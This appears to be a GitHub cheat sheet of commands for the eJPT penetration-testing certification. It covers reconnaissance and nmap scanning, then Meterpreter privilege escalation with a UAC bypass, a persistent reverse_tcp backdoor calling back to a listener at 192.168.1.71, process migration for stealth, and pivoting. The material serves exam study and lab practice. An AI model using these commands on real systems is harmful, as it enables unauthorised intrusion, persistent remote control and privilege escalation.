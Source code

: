 # eJPT
Some helps to pass eJPT
# Information Gathering
## Subdomain Enumeration
```
root@kali:~# sublist3r -v -d yahoo.com -w /usr/share/wordlists/
```
or we can use -b to bruteforce

we can enumerate the subdomains like FUZZ.thetoppers.htb with gobuster
```
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```
# Footprinting & Scanning

## Ping Sweep
You can scan all network with nmap, -sn to disable port scan
```
root@kali:~# nmap -sn -n 10.142.111.0/24
```
but you can scanning entire network with fping
```
root@kali:~# fping -a -g 10.142.111.0/24 2> /dev/null
```
# Nmap
## OS Fingerprinting
```
nmap -Pn -A -O 10.10.10.10
```
## Quick scan
```
nmap -sC -sV -A -T4 10.10.10.10 --open
```
## Full scan
```
nmap -sC -sV -A -T4 -p- 10.10.10.10 --open
```

nmap vuln scan example:
--script-args=unsafe=1 is used if you don't want to "crash" the system.
```
nmap --script vuln --script-args=unsafe=1 -iL hosts.txt
```
# Spotting a firewall

If an nmap TCP scan identified a well-known service, such as a web server, but cannot detect the version, then there may be a firewall in place.

```
For example:
PORT    STATE  SERVICE  REASON          VERSION
80/tcp  open   http?    syn-ack ttl 64
```

Another example:

```
80/tcp  open   tcpwrapped 
```
“tcpwrapped” means the TCP handshake was completed, but the remote host closed the connection without receiving any data.

These are both indicators that a firewall is blocking our scan with the target!

Tips:

Use “–reason” to see why a port is marked open or closed
If a “RST” packet is received, then something prevented the connection - probably a firewall!

# httprint

httprint banner grabling:
```
httprint -P0 -s /usr/share/httprint/signatures.txt -h 10.10.10.15
```

# Metasploit
Start metasploit with

```
$ msfconsole
```
# Meterpreter
## Privileges Escalation
On windows machine
```
meterpreter> getsystem
```
if doesn't work, probably windows has UserControlAccess enabled,so:
```
meterpreter> run post/windows/gather/win_privs
```
look if is true, and then
```
meterpreter> background
msf exploit(handler)> search uac
```
```
msf exploit(handler)> use exploit/windows/local/bypassuac
msf exploit(handler)> sessions
msf exploit(handler)> set SESSION <n>
msf exploit(handler)> exploit
meterpreter> getsystem
```
## Persistence
```
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location in target host to write payload to, if none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i   The interval in seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```
We will configure our persistent Meterpreter session to wait until a user logs on to the remote system and try to connect back to our listener every 5 seconds at IP address 192.168.1.71 on port 443.
```
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
[*] Creating a persistent agent: LHOST=192.168.1.71 LPORT=443 (interval=5 onboot=true)
[*] Persistent agent script is 613976 bytes long
[*] Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
[*] Agent executed with PID 492
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter >
```
To verify that it works, we reboot the remote system and set up our payload handler.
```
meterpreter > reboot
Rebooting...
meterpreter > exit

[*] Meterpreter session 3 closed.  Reason: User exit
msf exploit(ms08_067_netapi) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.71
LHOST => 192.168.1.71
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.71:443
[*] Starting the payload handler...
```
## Migrate PID to another PID to look less sus
```
meterpreter> getpid
meterpreter> ps -U SYSTEM //process with system privilege, choose one
meterpreter> migrate PID
```
# Pivoting
When we get access into a machine, we can check with ifconfig if there is another network which we couldn't access.
So let add the route to this network in msfconsole.
```
meterpreter> run autoroute -h
```
autoroute allow us to add a route to the network.
```
route add 192.69.228.0 255.255.255.0 1
```
for adding manually a route on msfconsole:

add //the command

subnet //subnet to connect

netmask //netmask of the subned

sid //meterpter session id


